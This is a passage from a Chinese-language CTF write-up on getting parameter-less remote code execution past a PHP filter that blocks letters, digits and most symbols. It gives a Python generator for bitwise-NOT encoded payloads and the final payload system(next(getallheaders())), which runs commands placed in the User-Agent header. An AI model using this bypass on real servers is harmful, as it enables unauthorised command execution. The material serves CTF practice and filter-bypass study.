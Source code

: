 我们传入的命令中不能有以下，

```bash
/[A-Za-z0-9]|\'|"|`|\ |,|\.|-|\+|=|\/|\\|<|>|\$|\?|\^|&|\|/，
```

想到是无字母数字，过滤了 异或 和或，留了取反。

同时我们的函数必须是无参的。

[![](assets/1698897208-2dbc1ac6c7b5a92de3ea45fd06d6d8dc.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210325204738-47c51d7a-8d68-1.png)

类似于这种，之前在 buuoj 上有遇到这种题目，无参数 RCE。

```bash
def one(s):
    ss = ""
    for each in s:
        ss += "%" + str(hex(255 - ord(each)))[2:].upper()
    return f"[~{ss}][!%FF]("

while 1:
    a = input(":>").strip(")")
    aa = a.split("(")
    s = ""
    for each in aa[:-1]:
        s += one(each)
    s += ")" * (len(aa) - 1) + ";"
    print(s)
```

利用脚本生成一下 payload，

试了好多遍，getallheaders() 在最后加的话用 bp 打好像并不是最后一个，试了好多种别的办法无果，但是 next() 后是 ua 头，于是我丧心病狂，直接改 ua

利用 payload: `system(next(getallheaders()));`

[![](assets/1698897208-22c05a102499adb897ffd2d5d218261d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210325204738-47e63636-8d68-1.png)
